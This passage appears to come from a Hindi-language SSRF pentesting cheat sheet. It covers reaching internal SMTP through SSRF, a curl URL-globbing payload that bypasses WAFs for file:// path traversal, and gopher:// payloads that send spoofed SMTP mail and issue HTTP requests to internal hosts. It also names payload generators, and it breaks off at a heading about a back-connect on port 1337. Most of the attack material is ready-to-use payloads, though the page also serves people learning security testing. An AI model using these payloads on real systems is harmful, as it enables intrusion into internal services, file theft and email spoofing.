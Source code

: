 ```
1. connect with SSRF on smtp localhost:25
2. from the first line get the internal domain name 220[ http://blabla.internaldomain.com ](https://t.co/Ad49NBb7xy)ESMTP Sendmail
3. search[ http://internaldomain.com ](https://t.co/K0mHR0SPVH)on github, find subdomains
4. connect
```
* **Curl URL globbing - WAF बायपास**
* यदि SSRF **curl** द्वारा निष्पादित किया जाता है, तो curl में [**URL globbing**](https://everything.curl.dev/cmdline/globbing) नामक एक विशेषता है जो WAFs को बायपास करने के लिए उपयोगी हो सकती है। उदाहरण के लिए, इस [**writeup**](https://blog.arkark.dev/2022/11/18/seccon-en/#web-easylfi) में आप **`file` प्रोटोकॉल के माध्यम से पथ ट्रैवर्सल** के लिए यह उदाहरण पा सकते हैं:
```
file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}
```
* **Gopher://**
* Gopher प्रोटोकॉल की क्षमता IP, पोर्ट और सर्वर संचार के लिए बाइट्स निर्दिष्ट करने की चर्चा की गई है, साथ ही Gopherus और remote-method-guesser जैसे उपकरणों का उपयोग करके पेलोड बनाने के लिए। दो अलग-अलग उपयोगों को दर्शाया गया है:

### Gopher://

इस प्रोटोकॉल का उपयोग करके आप **IP, पोर्ट और बाइट्स** निर्दिष्ट कर सकते हैं जिन्हें आप चाहते हैं कि सर्वर **भेजे**। फिर, आप मूल रूप से एक SSRF का लाभ उठाकर **किसी भी TCP सर्वर** के साथ **संवाद** कर सकते हैं (लेकिन आपको पहले सेवा से बात करना जानना होगा)।\
भाग्यवश, आप [Gopherus](https://github.com/tarunkant/Gopherus) का उपयोग करके कई सेवाओं के लिए पेलोड बना सकते हैं। इसके अतिरिक्त, [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) का उपयोग _Java RMI_ सेवाओं के लिए _gopher_ पेलोड बनाने के लिए किया जा सकता है।

**Gopher smtp**
```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AHYou didn't say the magic word !
.
QUIT
```
**गोफर HTTP**
```bash
#For new lines you can use %0A, %0D%0A
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body
```
**गोफर SMTP — 1337 पर बैक कनेक्ट**
